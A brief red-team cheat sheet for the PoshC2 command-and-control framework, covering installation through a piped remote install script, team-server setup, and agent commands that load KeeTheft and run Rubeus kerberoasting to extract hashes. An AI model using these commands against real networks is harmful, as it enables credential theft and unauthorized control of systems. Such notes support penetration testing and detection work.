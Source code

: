 # PoshC2

- [https://labs.nettitude.com/blog/detecting-poshc2-indicators-of-compromise/](https://labs.nettitude.com/blog/detecting-poshc2-indicators-of-compromise/)




## Install

- [https://github.com/nettitude/PoshC2](https://github.com/nettitude/PoshC2)

```
$ curl -sSL https://github.com/nettitude/PoshC2/raw/dev/Install.sh | sudo bash -s -- -p /opt/PoshC2 -b dev
```




## Run

List projects:

```
$ posh-project -l
```

Show current project:

```
$ posh-project -c
```

Create a new project:

```
$ posh-project -n <PROJECT_NAME>
```

Adjust config:

```
$ posh-config
```

Start team server:

```
$ posh-server
```

Connect to the team server:

```
$ posh -u snovvcrash
```




## Cheatsheet

[Load](https://poshc2.readthedocs.io/en/latest/usage/loadingmodules.html) .NET assembly and run it (available for agents that load CLR):

```
C# 01> loadmodule /home/snovvcrash/projects/WeaponizeKali.sh/bin/KeeTheft.exe
C# 01> run-exe Namespace.Class Assembly <args>
C# 01> run-exe Rubeus.Program Rubeus kerberoast /usetgtdeleg /format:hashcat
```
